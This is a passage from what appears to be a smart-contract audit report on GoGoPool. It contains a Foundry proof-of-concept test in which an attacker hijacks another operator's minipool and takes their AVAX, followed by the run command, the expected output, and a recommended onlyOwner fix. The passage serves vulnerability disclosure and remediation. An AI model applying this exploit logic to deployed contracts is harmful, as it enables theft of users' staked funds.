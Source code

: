     		// Hacker immediatally cancels the nodeOp minipool, validate 1000 AVAX returned
    		minipoolMgr.cancelMinipool(nodeOpMp.nodeID);
    		assertEq(hacker.balance, depositAmt);
    		// Hacker withdraws his own minipool and receives 1000 AVAX + rewards
    		minipoolMgr.withdrawMinipoolFunds(hackerMp.nodeID);
    		assertEq(hacker.balance, depositAmt + depositAmt + expectedRewards);
    
    		// Hacker withdraws his staked ggp
    		staking.withdrawGGP(ggpStakeAmt);
    		assertEq(ggp.balanceOf(hacker), ggpStakeAmt);
    		vm.stopPrank();
    
    		vm.startPrank(nodeOp);
    		// NodeOp tries to withdraw his funds from the minipool
    		// Transaction reverts because NodeOp is not the owner anymore
    		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
    		minipoolMgr.withdrawMinipoolFunds(nodeOpMp.nodeID);
    
    		// NodeOp can still release his staked gpp
    		staking.withdrawGGP(ggpStakeAmt);
    		assertEq(ggp.balanceOf(nodeOp), ggpStakeAmt);
    		vm.stopPrank();
    	}

To run the POC, execute:

    forge test -m testHijackMinipool -v

Expected output:

    Running 1 test for test/unit/MinipoolManager.t.sol:MinipoolManagerTest
    [PASS] testHijackMinipool() (gas: 2346280)
    Test result: ok. 1 passed; 0 failed; finished in 9.63s

### [](#tools-used-1)Tools Used

VS Code, Foundry

### [](#recommended-mitigation-steps-3)Recommended Mitigation Steps

Fortunately, the fix is very simple.  
The reason `createMinipool` is called with an existing `nodeID` is to re-use the `nodeID` again with the protocol. GoGoPool can validate that the owner is the same address as the calling address. GoGoPool have already implemented a function that does this: `onlyOwner(index)`.

Consider placing `onlyOwner(index)` in the following area:  
[https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L243](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L243)

    	function createMinipool(
    		address nodeID,
    		uint256 duration,
    		uint256 delegationFee,
    		uint256 avaxAssignmentRequest
    	) external payable whenNotPaused {
    ----------
    		int256 minipoolIndex = getIndexOf(nodeID);
    		if (minipoolIndex != -1) {
                            onlyOwner(minipoolIndex); // AUDIT: ADDED HERE
    ----------
    		} else {
    ----------
    	}
